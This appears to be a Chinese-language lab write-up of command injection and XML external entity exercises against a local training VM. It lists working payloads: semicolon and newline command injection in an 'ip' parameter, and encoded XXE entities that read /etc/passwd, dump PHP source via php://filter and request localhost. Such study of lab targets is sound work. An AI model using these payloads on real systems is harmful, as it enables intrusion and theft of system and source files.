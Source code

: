 # Commands injecttion

## Example 1

没做任何过滤的。。。直接就可以输入命令了。。
```
http://192.168.56.101/commandexec/example1.php?ip=;ls
```

## Example 2

这种遇到的少了，还是白盒了，然后发现`preg_match`的正则有\m修饰符，就会了。。。
```
http://192.168.56.101/commandexec/example2.php?ip=127.0.0.1%0als
```

## Example 3

这题还不错。。受到前几题的影响，一直在想正则怎么绕了，研究了半天，发现正则写的没问题，根本绕过不
```
preg_match('/^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$/', $_GET['ip'])
```

看了LL的wp后在注意到，header后竟然没有exit，这就跟没过滤一样了，这类的题目以前遇到过。。
Payload:
```
$ curl -v "http://192.168.56.101/commandexec/example3.php?ip=127.0.0.1;ls"
```

# XML attacks

这部分是XXE注入，XML Entity Injection, XML不是特别了解，参考文档<https://www.91ri.org/9539.html>

## Example 1
根据文档中的例子，自己试了试，把能删的都删了，剩下必须的部分：
```
http://192.168.56.101/xml/example1.php?xml=%3C%21DOCTYPE%20h%20%5B%3C%21ENTITY%20pen%20SYSTEM%20%22file%3A%2f%2f%2fetc%2fpasswd%22%20%3E%5D%3E%3Ctext%3E%26pen%3B%3C%2ftext%3E
<!DOCTYPE h [<!ENTITY pen SYSTEM "file:///etc/passwd" >]><text>&pen;</text>
http://192.168.56.101/xml/example1.php?xml=%3C%21DOCTYPE%20h%20%5B%3C%21ENTITY%20pen%20SYSTEM%20%22php%3A%2f%2ffilter%2fread%3Dconvert.base64-encode%2fresource%3Dexample1.php%22%20%3E%5D%3E%3Ctext%3E%26pen%3B%3C%2ftext%3E
<!DOCTYPE h [<!ENTITY pen SYSTEM "php://filter/read=convert.base64-encode/resource=example1.php" >]><text>&pen;</text>
http://192.168.56.101/xml/example1.php?xml=%3C%21DOCTYPE%20h%20%5B%3C%21ENTITY%20pen%20SYSTEM%20%22http:/%2f127.0.0.1%22%20%3E%5D%3E%3Ctext%3E%26pen%3B%3C%2ftext%3E
<!DOCTYPE h [<!ENTITY pen SYSTEM "http://127.0.0.1" >]><text>&pen;</text>
```

SYSTEM之后的参数可以如下协议：
```
file://
http://
php://
```
